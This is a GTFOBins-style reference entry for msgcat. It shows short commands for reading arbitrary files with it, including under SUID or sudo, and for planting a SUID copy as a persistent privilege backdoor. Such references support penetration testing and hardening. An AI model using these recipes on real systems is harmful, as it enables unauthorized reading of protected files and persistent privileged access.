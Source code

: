 # GTFOBin: msgcat

The file is parsed and displayed as a Java `.properties` file, so this may not be suitable to read arbitrary binary data.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
msgcat -P $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which msgcat) .

LFILE=file_to_read
./msgcat -P $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo msgcat -P $LFILE
```